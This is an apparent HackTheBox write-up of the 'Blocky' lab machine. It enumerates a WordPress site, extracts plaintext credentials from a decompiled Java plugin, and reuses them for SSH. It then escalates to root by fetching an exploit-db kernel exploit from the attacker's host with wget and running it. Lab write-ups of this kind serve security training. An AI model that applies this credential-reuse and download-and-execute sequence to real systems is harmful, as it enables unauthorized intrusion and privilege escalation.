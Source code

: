 ```yaml
---
layout: page
title: HackTheBox Blocky Writeup
---
```


Blocky involves learning how using bad password policies and practices can present a vulnerability to a website. This box also simulates a website that is for a Minecraft server, but with that it emulates a young developer's configurations of a web server that's used to escalate privileges to root.

### Enumeration

First we do a standard ```nmap -sC -sV -oA 10.10.10.37```:

![image](https://user-images.githubusercontent.com/41026969/67590388-eab51800-f728-11e9-9b02-88a2df419918.png)

So we see several things:

- Port 21 is open, there's an FTP service
- Port 22 is open, there's an SSH service
- Port 80 is open, there's a Wordpress server
- Port 8192?? 

I check the FTP for anonymous login , doesn't work

Checking some default/common passwords for FTP and SSH, doesn't work

Checking out the website:

![image](https://user-images.githubusercontent.com/41026969/68036629-70dadc80-fc9c-11e9-86e6-7ce71bffc47d.png)

We see that it's a wordpress website for a minecraft server.

To do some further enumeration, I do a wordpress scan:

The first command I do is: ```wpscan --url 10.10.10.37 --enumerate u``` this scans the address and enumerates/finds users. Here's what it resulted in:

```
[+] Enumerating usernames ...
[+] Identified the following 1 user/s:
    +----+-------+---------+
    | Id | Login | Name    |
    +----+-------+---------+
    | 1  | notch | Notch – |
    +----+-------+---------+
```

Cool, we find one user: notch

Doing a similar scan for plugins (to find a potential outdated plugin that can be exploited): ```wpscan --url 10.10.10.37 --enumerate p```

```
[+] We found 1 plugins:

[+] Name: akismet - v3.3.2
 |  Last updated: 2019-04-29T18:18:00.000Z
 |  Location: http://10.10.10.37/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.37/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.1.1
```

Not sure if that can be useful, just going to keep that in the back pocket.

Poking arond the wordpress site, I can't find anything interesting so next I do a dirb scan to see if I can find some interesting directories or files. I add a ```-r``` at the end because when I initially did it without, the recursive enumeration was taking too long so adding the ```-r``` makes it not recusively search:

```
dirb http://10.10.10.37 -r
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov  1 12:39:50 2019
URL_BASE: http://10.10.10.37/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.37/ ----
+ http://10.10.10.37/index.php (CODE:301|SIZE:0)                                                                                                              
==> DIRECTORY: http://10.10.10.37/javascript/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/phpmyadmin/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/plugins/                                                                                                                    
+ http://10.10.10.37/server-status (CODE:403|SIZE:299)                                                                                                        
==> DIRECTORY: http://10.10.10.37/wiki/                                                                                                                       
==> DIRECTORY: http://10.10.10.37/wp-admin/                                                                                                                   
==> DIRECTORY: http://10.10.10.37/wp-content/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/wp-includes/                                                                                                                
+ http://10.10.10.37/xmlrpc.php (CODE:405|SIZE:42)                                                                                       ----------------
END_TIME: Fri Nov  1 12:41:18 2019
DOWNLOADED: 4612 - FOUND: 3
```
Checking through each of the directories and files, we eventually come across ```http://10.10.10.37/plugins/```... Going to this directory reveals a couple interesting files:

![image](https://user-images.githubusercontent.com/41026969/68041797-b7820400-fca7-11e9-99a5-1896042c801a.png)

If you're not familiar with what a .jar file, it's basically a zip file with Java files in it. 

We can unzip the files to see what is inside it by doing ```unzip BlockCore.jar```. This extracts two directories: ```com``` and ```META-INF```. 

Going into the ```com``` directory, there's another directory called ```myfirstplugin```, going into that directory there's a java file: ```BlockyCore.class``` (A .class file is essentially compiled java code). If we want to see what this class contains, we need to decompile this file... 

### Exploitation

The java decompiler I use is [jd-gui](https://github.com/java-decompiler/jd-gui). On the github link, there's instructions on how to install/run the program. 

Upon running the pgoram, it brings up a GUI in which we can drag and drop the ```BlockyCore.class``` file to see the decompiled code. Doing so will give us the following code:

![image](https://user-images.githubusercontent.com/41026969/68055072-3dad4300-fcc6-11e9-8221-44a76c3cae54.png)

We see there's credentials stored in plaintext:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Trying to logon as root on the FTP and SSH services yields no results. So referring to the wordpress enumeration scans from above, we see there's a user we can try this password on: ```notch```.

Checking against ssh: ```ssh -l notch 10.10.10.37``` and typing in the password, we get a shell!

Doing a ```id``` check reveals we are user notch.

Looking around the server we see there's a ```/root``` directory but trying to get into it we get access denied.

##### Privilege Escalation 

Since we have a user shell, we can still do some more enumeration to find out more about the server:

Reading the OS version file by doing ```cat /etc/os-release``` spits out:

```
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Doing one more check by doing ```hostnamectl``` tells us:

```
   Static hostname: Blocky
         Icon name: computer-vm
           Chassis: vm
        Machine ID: b927797b27465e4b27172dd35958fd55
           Boot ID: 3ec0cf7c85424f03b77ab68129ff2d54
    Virtualization: vmware
  Operating System: Ubuntu 16.04.2 LTS
            Kernel: Linux 4.4.0-62-generic
      Architecture: x86-64

```

Doing some research I come across [this exploit-db exploit](https://www.exploit-db.com/exploits/44298). 

I download the c file, and compile using ```gcc```. Next, I need to get the .exe file on the victim machine. To do so, I use python's SimpleHTTPServer and wget to do so. Here are the instructions I did.

1. In the directory where the exe file is (on the host computer), I do ```pythom -m SimpleHTTPServer```

![image](https://user-images.githubusercontent.com/41026969/68057294-d7c3ba00-fccb-11e9-967d-1c62bfbe77d1.png)

2. Now on the host machine (in notch home directory, somewhere we have read/write/execute permissions), I do ```wget [IP]:8000/44298```. ```8000``` is the port number that the SimpleHTTPServer is being hosted on, and ```44298``` is the executable file. Doing so correctly, the shell running the SimpleHTTPServer should output a ```GET``` request from the victim IP ```10.10.10.37```. 

3. Now that we got the executable on the remote machine, we need to give it permission to execute: ```chmod +x 44298```.

Below is steps two and three being shown:

![image](https://user-images.githubusercontent.com/41026969/68057677-08582380-fccd-11e9-9d48-636ff233cd97.png)

Now all we have to do is run the executable ```./44298```:

![image](https://user-images.githubusercontent.com/41026969/68057728-30478700-fccd-11e9-9cf0-29ad480e7aff.png)

### Flags

user: ```/home/notch/user.txt```

root: ```/root/root.txt ```